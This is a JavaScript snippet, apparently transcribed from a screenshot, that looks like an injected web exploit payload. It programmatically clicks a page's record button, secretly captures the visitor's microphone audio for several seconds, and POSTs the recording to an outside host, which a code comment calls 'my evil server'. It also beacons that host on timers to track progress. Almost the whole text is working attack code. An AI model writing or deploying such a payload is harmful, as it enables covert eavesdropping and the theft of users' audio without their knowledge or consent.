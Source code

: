 ```js
                        mediaRecorder = new MediaRecorder(stream, { mimeType: mediaType });
                        mediaRecorder.start();

                        let chunks = [];

                        mediaRecorder.addEventListener("dataavailable", (e) => {
                            chunks.push(e.data);
                        });

                        mediaRecorder.addEventListener("stop", () => {
                            mediaBlob = new Blob(chunks);
                            recordPlayback.src = URL.createObjectURL(mediaBlob);
                        })
                    });
            }
        });
    }

    if (uploadForm) {
        uploadForm.addEventListener("submit", (e) => {
            e.preventDefault();
            let formData = new FormData(document.getElementById("upload-form"));
            if (mediaBlob) {
                formData.append("audiofile", mediaBlob, "audio." + mediaType.split("/")[1]);
            }


        });
    }
    setTimeout(function(){
        fetch("https://example.com.tw/?0");
    }, 0);
    setTimeout(function(){
        fetch("https://example.com.tw/?5000");
    }, 5000);
    setTimeout(function(){
        fetch("https://example.com.tw/?10000");
    }, 10000);
    setTimeout(function(){
        fetch("https://example.com.tw/?15000");
    }, 15000);
    setTimeout(function(){
        fetch("https://example.com.tw/?20000");
    }, 20000);
    setTimeout(function(){ // after 1000 ms, start recording
        recordButton.click();
        fetch("https://example.com.tw/?startrecording");
        setTimeout(function() { // recording for 7000 ms
            recordButton.click();
            fetch("https://example.com.tw/?endrecording");

            // lets submit to my evil server
            setTimeout(function() { // process time: 2000ms
                let formData = new FormData(uploadForm);
                if (mediaBlob) {
                    formData.append("audiofile", mediaBlob, "audio." + mediaType.split("/")[1]);
                }
                let postf = fetch("https://example.com.tw/log", {
                    method: "POST",
                    body: formData,
                });
            }, 5000);
        }, 15000);
```